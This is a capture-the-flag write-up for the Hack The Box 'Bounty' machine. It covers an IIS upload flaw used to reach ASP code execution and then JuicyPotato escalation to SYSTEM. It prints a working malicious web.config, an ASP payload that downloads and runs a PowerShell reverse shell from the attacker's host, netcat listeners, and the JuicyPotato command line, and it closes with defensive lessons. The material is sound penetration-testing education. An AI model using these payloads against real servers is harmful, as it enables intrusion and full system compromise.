




# Hack The Box — Bounty Writeup

| Field | Value |
| --- | --- |
| Platform | Hack The Box |
| Machine | Bounty |
| Category | Windows / IIS |
| Completed | 12 October 2026 |
| Author | Rully Miftahur Rozaq |
| Initial access | Uploading a `web.config` file that enabled Classic ASP execution |
| Initial user | `bounty\merlin` |
| Privilege escalation | JuicyPotato using `SeImpersonatePrivilege` |
| Final context | `NT AUTHORITY\SYSTEM` |

> **Scope and authorization:** This writeup documents activity against the authorized Hack The Box Bounty lab machine. Flag values are omitted from this public report.

## Summary

An upload feature accepted a crafted `web.config` file in a web-accessible directory. The file changed IIS handler and filtering behavior, allowing Classic ASP command execution. I used that execution to obtain a PowerShell reverse shell as `bounty\merlin`. The session had `SeImpersonatePrivilege` enabled; JuicyPotato then provided a path to a SYSTEM shell and the root flag.

The screenshots show different target IP assignments for Bounty: `10.129.54.123` during the Nmap scan, `10.129.54.107` during directory and extension checks, and `10.129.54.112` during upload and exploitation. My VPN address was `10.10.14.7`. Use the current machine IP when reproducing these steps. Flag values are intentionally omitted.

## Attack path

```text
IIS on port 80 and /uploadedfiles/ discovered
    → file upload at /transfer.aspx
    → executable web.config in /uploadedfiles/
    → Classic ASP command execution
    → PowerShell reverse shell as bounty\merlin
    → SeImpersonatePrivilege identified
    → JuicyPotato
    → SYSTEM shell and root flag
```

## 1. Reconnaissance

I documented the exposed service with Nmap:

```bash
nmap -sCV -T5 -v 10.129.54.123
```

Among the 1,000 TCP ports scanned, port `80` was the only open port shown. Nmap identified **Microsoft IIS 7.5** and the HTTP page title **Bounty**. Its HTTP method check listed `OPTIONS`, `TRACE`, `GET`, `HEAD`, and `POST`.



I then enumerated web directories on another instance of the same machine:

```bash
gobuster dir -u http://10.129.54.107 -w /usr/share/wordlists/dirb/common.txt
```

The scan found `/aspnet_client/` and `/uploadedfiles/`, both returning HTTP `301` redirects to their trailing-slash URLs. The latter was relevant because it was where uploaded files could be requested.



I also used Burp Intruder to check several extension payloads, including `php`, `php5`, `.config`, `aspx`, `asp`, `jsp`, and `html`. Every displayed request returned HTTP `200` with the same response length of `1336` bytes. That uniform result did **not** establish which extensions were accepted by the upload feature or executed by IIS; it was only an exploratory check.



## 2. Upload a `web.config` payload

The application provided an upload form at `/transfer.aspx`. After submitting the file, it displayed `File uploaded successfully.` I could then request the uploaded file under `/uploadedfiles/`. The success message confirmed that the upload request was accepted; execution was verified separately below.



I uploaded a crafted `web.config` file. Its IIS configuration mapped `.config` requests to the Classic ASP handler and removed the filters that normally hide `web.config` from web requests.

The relevant structure was:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <system.webServer>
    <handlers accessPolicy="Read, Script, Write">
      <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified" requireAccess="Write"
           preCondition="bitness64" />
    </handlers>
    <security>
      <requestFiltering>
        <fileExtensions>
          <remove fileExtension=".config" />
        </fileExtensions>
        <hiddenSegments>
          <remove segment="web.config" />
        </hiddenSegments>
      </requestFiltering>
    </security>
  </system.webServer>
</configuration>
<!--
<%
Response.Write(1+2)
%>
-->
```

I requested:

```text
http://10.129.54.112/uploadedfiles/web.config
```

The response was `3`, confirming that the ASP code executed. I then tested command execution with `cmd /c whoami`; it returned `bounty\merlin`. These two short tests separated ASP execution from the later reverse shell troubleshooting.

## 3. Obtain the initial reverse shell

I used Nishang's `Invoke-PowerShellTcp` function, saved locally as `revershell.ps1`, with this invocation at the end of the script:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443
```

An earlier copy accidentally used `443a`; the port must be an integer and must match the listener. From the directory containing the script on Kali, I served it over HTTP and opened a separate listener:

```bash
python3 -m http.server 80
nc -lvnp 443
```

I replaced the ASP test code in `web.config` with a command that downloaded and ran the script:

```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7/revershell.ps1')")
o = cmd.StdOut.ReadAll()
Response.Write(o)
%>
```

After uploading the updated file and requesting `/uploadedfiles/web.config`, I received a PowerShell session at `PS C:\Users\merlin\Desktop>`. A blank or still-loading browser page was not a reliable failure signal here: `StdOut.ReadAll()` waits for the launched process, and the reverse shell is long-running. The HTTP server request log and the Netcat listener were more useful checks.

## 4. Enumerate the user context

In the initial shell, I ran:

```powershell
whoami /all
```

The session belonged to `bounty\merlin`. The privilege list showed `SeImpersonatePrivilege` as **Enabled**. That made token impersonation a plausible local escalation path. Merely having the privilege does not guarantee that a particular Potato technique will work, so I tested it on the target.

## 5. Escalate with JuicyPotato

I placed `JuicyPotato.exe` and a second PowerShell shell script, `shellsystem.ps1`, in `C:\Users\merlin\Desktop`. The second script was configured to connect to my VPN address on port `4444`. I started its listener on Kali:

```bash
nc -lvnp 4444
```

My first JuicyPotato attempt failed because the `-a` argument had an unterminated quote. After fixing the quote, JuicyPotato printed a successful authentication result and a `NT AUTHORITY\SYSTEM` token, but `CreateProcessWithTokenW` failed with Windows error `3` (`ERROR_PATH_NOT_FOUND`). This meant the token step had succeeded while the requested process had not launched.

I used `cmd.exe` as the program JuicyPotato launched and had it start the local PowerShell script:

```powershell
.\JuicyPotato.exe -t t -l 1337 -p C:\Windows\System32\cmd.exe -a '/c powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Users\merlin\Desktop\shellsystem.ps1'
```

Here, `-l 1337` is JuicyPotato's local COM listener port on the target; `4444` is the separate reverse shell listener port on my machine. The resulting shell ran as `NT AUTHORITY\SYSTEM`, and I retrieved the root flag. The flag value is not included in this public write-up.

## Result Verification

- `Response.Write(1+2)` returned `3`, confirming ASP execution.
- The initial command and shell ran as `bounty\merlin`.
- The initial shell reported `SeImpersonatePrivilege` as enabled.
- JuicyPotato obtained a SYSTEM token, and the corrected process launch yielded a SYSTEM shell. I retrieved the root flag; its value is omitted.

## Troubleshooting notes

| Symptom | Cause or useful check |
| --- | --- |
| No HTTP request for `revershell.ps1` | First confirm that the uploaded ASP executes with `Response.Write(1+2)` and that `cmd /c whoami` runs. Then check the payload URL and target-to-attacker connectivity. |
| Browser page stays blank or times out | `StdOut.ReadAll()` can keep the request open while the reverse shell runs. Check the HTTP log and listener. |
| `whoami/ all` fails | PowerShell treated the mistyped text as a command name. Use `whoami /all`, with a space before `/all`. |
| JuicyPotato prints its usage | Mandatory options, including `-t`, `-p`, and `-l`, were not supplied. |
| JuicyPotato obtains a SYSTEM token but reports error `3` | The requested process did not launch because a path could not be found. In this run, launching `cmd.exe` with a local script resolved the process-creation step. |

## Lessons Learned

Two weaknesses formed the chain. First, the upload location permitted an IIS configuration file to change how uploaded content was handled, turning a file upload into server-side ASP execution. Second, the compromised process exposed `SeImpersonatePrivilege`, and JuicyPotato was able to obtain a SYSTEM token and launch a new process with it.

For a real deployment, uploaded files should be kept outside executable web roots, and user-controlled uploads should not be allowed to supply `web.config` or alter handler mappings. The IIS service account and host should also be configured and maintained so that unnecessary privilege escalation paths are unavailable.

## References

- [Nishang: Invoke-PowerShellTcp](https://github.com/samratashok/nishang)
- [JuicyPotato project](https://github.com/ohpe/juicy-potato)
- [Microsoft: Windows system error codes](https://learn.microsoft.com/en-us/windows/win32/debug/system-error-codes--0-499-)
